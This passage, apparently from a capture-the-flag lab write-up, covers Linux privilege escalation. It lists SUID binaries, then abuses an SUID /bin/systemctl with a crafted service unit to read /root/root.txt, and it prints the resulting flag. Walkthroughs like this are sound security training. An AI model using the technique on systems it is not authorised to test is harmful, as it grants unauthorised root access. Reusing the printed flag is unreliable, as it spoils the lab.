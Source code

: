## Privilege Escalation
### On the system, search for all SUID files. What file stands out?
- **Answer:** /bin/systemctl
- **Steps to Reproduce:** 
    ```bash
    $ find / -type f -perm /4000 2>/dev/null
    /usr/bin/newuidmap
    /usr/bin/chfn
    /usr/bin/newgidmap
    /usr/bin/sudo
    /usr/bin/chsh
    /usr/bin/passwd
    /usr/bin/pkexec                                                                                                                                                                             
    /usr/bin/newgrp                                                                                                                                                                             
    /usr/bin/gpasswd                                                                                                                                                                            
    /usr/bin/at                                                                                                                                                                                 
    /usr/lib/snapd/snap-confine
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/lib/openssh/ssh-keysign
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/squid/pinger
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    /bin/su
    /bin/ntfs-3g
    /bin/mount
    /bin/ping6
    /bin/umount
    /bin/systemctl
    /bin/ping
    /bin/fusermount
    /sbin/mount.cifs
    ```
---

### Become root and get the last flag (/root/root.txt)
- **Answer:** a58ff8579f0a9270368d33a9966c7fd5
- **Steps to Reproduce:** 
    ```bash
    $ TF=$(mktemp).service
    $ echo '[Service]
    > Type=oneshot
    > ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
    > [Install]
    > WantedBy=multi-user.target' > $TF
    $ /bin/systemctl link $TF
    Created symlink from /etc/systemd/system/tmp.2K1Rvcs7BB.service to /tmp/tmp.2K1Rvcs7BB.service.
    $ /bin/systemctl enable --now $TF
    Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.2K1Rvcs7BB.service to /tmp/tmp.2K1Rvcs7BB.service.
    $ cat /tmp/output
    a58ff8579f0a9270368d33a9966c7fd5
    ```
    - Refer [GTFO Bins](https://gtfobins.github.io/gtfobins/systemctl/)
---